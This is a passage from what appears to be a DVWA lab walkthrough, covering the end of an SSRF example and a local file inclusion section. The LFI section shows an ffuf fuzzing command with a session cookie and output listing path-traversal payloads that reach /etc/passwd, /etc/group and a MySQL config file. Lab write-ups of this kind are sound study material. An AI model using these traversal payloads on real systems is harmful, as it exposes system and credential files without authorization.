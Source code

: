 ```
In this example we are accessing a local page which would not be accessible from another device.

![ssrf](/assets/imgs/dvwa2/ssrf.png)

-----

## LFI
LFI vulnerabilities allow an attacker to read (and sometimes execute) files on the victim machine. This can be very dangerous because if the web server is misconfigured and running with high privileges, the attacker can gain access to confidential information. If the attacker can put code on the web server through other means, he may be able to execute arbitrary commands. [source](https://www.offensive-security.com/metasploit-unleashed/file-inclusion-vulnerabilities/)

We can discover application files by fuzzing

```
❯ ffuf -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt -u "http://localhost/dvwa/vulnerabilities/fi/?page=FUZZ" -b "security=low; PHPSESSID=9dpvhricbfl5aj58qses365ehk" -c -t 200 -fl=80      

        /'___\  /'___\           /'___\                                                                                                                                                       
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                                                                                       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                                                                                      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                                                                                                                      
         \ \_\   \ \_\  \ \____/  \ \_\                                                                                                                                                       
          \/_/    \/_/   \/___/    \/_/                                                                                                                                                       

       v1.3.1 Kali Exclusive <3                                                                                                                                                               
________________________________________________                                                                                                                                              

 :: Method           : GET                                                                                                                                                                    
 :: URL              : http://localhost/dvwa/vulnerabilities/fi/?page=FUZZ                                                                                                                    
 :: Wordlist         : FUZZ: /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-LFISuite-pathtotest.txt                                                                                            
 :: Header           : Cookie: security=low; PHPSESSID=9dpvhricbfl5aj58qses365ehk                                                                                                             
 :: Follow redirects : false                                                                                                                                                                  
 :: Calibration      : false                                                                                                                                                                  
 :: Timeout          : 10                                                                                                                                                                                              
 :: Threads          : 200                                                                                                                                                                                             
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405                                                                                                                                                
 :: Filter           : Response lines: 80                                                                                                                                                                              
________________________________________________                                                                                                                                                                       

/proc/self/stat         [Status: 200, Size: 4369, Words: 215, Lines: 81]                                                                                                                      
../../../../../../../../../etc/passwd [Status: 200, Size: 7251, Words: 193, Lines: 136]                                                                                                                                
/proc/self/fd/8         [Status: 200, Size: 119451, Words: 11460, Lines: 718]                                                                                                                                          
/etc/mysql/my.cnf       [Status: 200, Size: 5171, Words: 311, Lines: 109]                                                                                                                                              
../../../../../../etc/group [Status: 200, Size: 5331, Words: 164, Lines: 165]                                                                                                                                          
../../../../../../../../etc/group [Status: 200, Size: 5331, Words: 164, Lines: 165]                                                                                                                                    